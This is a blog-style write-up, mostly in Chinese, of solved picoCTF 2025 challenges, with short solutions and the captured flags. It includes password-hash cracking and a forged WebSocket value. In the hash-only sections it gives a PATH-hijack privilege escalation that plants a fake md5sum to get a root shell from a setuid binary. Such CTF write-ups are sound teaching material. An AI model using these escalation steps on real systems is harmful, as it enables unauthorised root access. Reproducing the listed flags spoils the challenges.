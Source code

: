 ```yaml
---
title: picoCTF 2025 - write-up
published: 2025-03-18
description: '紀錄在 picoCTF 2025 competition 中所解的題目'
image: 'image.jpg'
tags: [CTF,write-up,Cyber Secutity]
category: 'CTF'
draft: true
---
```


## Result

![image](image01.png)
![image](image-02.png)

## Web

### WebSockFish 

這是一個西洋棋樣子的 web  
![image](image-03.png)

當我們下爛掉的時候，可以發現他發送的 websocket 的 value 變大了 （下圖右邊的 ws eval value）
![image](image-04.png)
我們可以試試看，送出負的 value
```javascript
ws.send("eval -9999999");
```
![image](image-05.png)


> picoCTF{c1i3nt_s1d3_w3b_s0ck3t5_e5e75e69}

### Pachinko

這一題只能說，一點都看不懂他在幹嘛，但我弄一弄就解出來了 xD  
知道了以後會更新的！

## Crypto

### hashcrack

看題目就知道，題目跟 hash 爆破有關  
直接把 hash 值丟到 [這邊](https://crackstation.net/)
![image](image-06.png)

> picoCTF{UseStr0nG_h@shEs_&PaSswDs!_ce730f64}


### Guess My Cheese (Part 1)

Hints: affinity for linear equations 
代表說這些 c （密文） 跟 p （明文） 之間有線性關係
先連上去看看
![image](image-07.png)
這邊他有加密跟猜測兩個選項  
先試試看加密
![image](image-08.png)
得到了 c 跟 p ， 這樣我們就可以解方程式
![image](image-09.png)
得出 A = 11 , B = 5
這樣就可以解密
![image](image-10.png)
> picoCTF{ChEeSy1ff8ae0d}

## Reverse

### Flag Hunters

REFRAIN;RETURN 0;

> picoCTF{70637h3r_f0r3v3r_a3d964ee}

### Quantum Scrambler

除了工人智慧以外，目前還沒有看到其他的 write-up

> picoCTF{python_is_weirdf82598d6}

### Binary Instrumentation 1

利用 Frida 去逆向 patch JS 函式

> picoCTF{w4ke_m3_up_w1th_fr1da_f27acc38}

## Forensics

### RED

Metadata 查看過後發現有藏頭詩
```
Crimson heart, vibrant and bold,.
Hearts flutter at your sight..
Evenings glow softly red,.
Cherries burst with sweet life..
Kisses linger with your warmth..
Love deep as merlot..
Scarlet leaves falling softly,.
Bold in every stroke.
```

check LSB 
使用 zsteg 來檢查
發現了奇怪的東西
b1,rgba,lsb,xy      .. text: "cGljb0NURntyM2RfMXNfdGgzX3VsdDFtNHQzX2N1cjNfZjByXzU0ZG4zNTVffQ==..."

拿去 base64 解碼 就有了
> picoCTF{r3d_1s_th3_ult1m4t3_cur3_f0r_54dn355_}

### Ph4nt0m 1ntrud3r

Sort the packets in chronological order, extract the content, and then decode it using Base64.
```python
import base64

encoded_strings = [
    "cGljb0NURg==",
    "ezF0X3c0cw==",
    "bnRfdGg0dA==",
    "XzM0c3lfdA==", 
    "YmhfNHJfZQ==",
    "NWU4Yzc4ZA==",
    "fQ==",
]

flag = ""

decoded_strings = []
for enc in encoded_strings:
    try:
        decoded = base64.b64decode(enc).decode("utf-8")
        decoded_strings.append(decoded)
    except Exception:
        decoded_strings.append(f"Error decoding: {enc}")

for decoded in decoded_strings:
    flag += decoded
print(flag)
```


> picoCTF{1t_w4snt_th4t_34sy_tbh_4r_e5e8c78d}

### Event-Viewing

event ID 1074, 1033, 4567
> picoCTF{Ev3nt_vi3wv3r_1s_a_pr3tty_us3ful_t00l_81ba3fe9}

### Bitlocker-1

推薦使用 WSL 
這邊利用 John 去爆破 hash
再利用 hashcat 破密碼
最後掛載檔案 拿到 Flag

> picoCTF{us3_b3tt3r_p4ssw0rd5_pl5!_3242adb1}

## Pwn

### PIE TIME

main address - offset = win function address
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_93dd5fcb}

### hash-only-1

經典的 Privilege Escalation 
首先 先靜態逆向觀察
可以發現以下的 code 
std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string(
    v13,
    "/bin/bash -c 'md5sum /root/flag.txt'",
    &v11);
...
  setgid(0);
  setuid(0);
...
v12 = system(v5);

然後發現了執行檔的權限控制如下
-rwsr-xr-x 1 root root 18312 Mar  6 03:45 flaghasher

代表說 一般 user 執行這個檔案 是利用 root 權限
我們可以嘗試利用環境變數來替換掉 system() 執行的命令

echo -e '#!/bin/bash\n/bin/bash' > /tmp/md5sum
chmod +x /tmp/md5sum
export PATH=/tmp:$PATH
./flaghasher


這樣我們可以順利取得 root shell ，然後 get flag
cat /root/flag.txt
> picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_9722baa4}

### hash-only-2

跟上個題目一樣，只是初始的 bash 換成了 rbash
之後的流程都一樣
> picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_aeecb174} 
